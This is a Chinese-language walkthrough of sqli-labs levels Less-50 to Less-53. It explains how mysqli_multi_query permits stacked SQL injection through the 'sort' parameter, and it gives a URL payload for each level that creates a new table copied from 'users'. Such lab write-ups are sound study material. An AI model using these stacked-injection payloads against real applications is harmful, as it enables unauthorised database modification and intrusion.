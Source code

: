 
### Less-50

本关开始，进行 order by stacked injection !

这里使用的是mysqli_multi_query()函数，而之前使用的是mysqli_query()。<br>
区别在于mysqli_multi_query()可以执行多个sql 语句，而mysqli_query()只能执行一个sql 语句。<br>
因此我们可以注入执行多个sql 语句注入 statcked injection。
    
上述的 sort还是可行的就不重复了，下面给出 stacked injection 的payload:

    ?sort=1;create%20table%20less50%20like%20users  # 创建表成功

    
### Less-51

本关卡 sql 语句进行了 ' id ' 处理，因此在注入后需要注释最后的单引号，此处给出payload:

    ?sort=1%27;create%20table%20less51%20like%20users--+  # 创建表成功


### Less-52

本关与 Less-50 的区别在于前端不回显错误。

给出payload: 

    ?sort=1;create%20table%20less52%20like%20users  # 创建表成功


### Less-53

本关与 Less-51 的区别在于前端不回显错误。

给出payload: 

    ?sort=1%27;create%20table%20less53%20like%20users--+  # 创建表成功
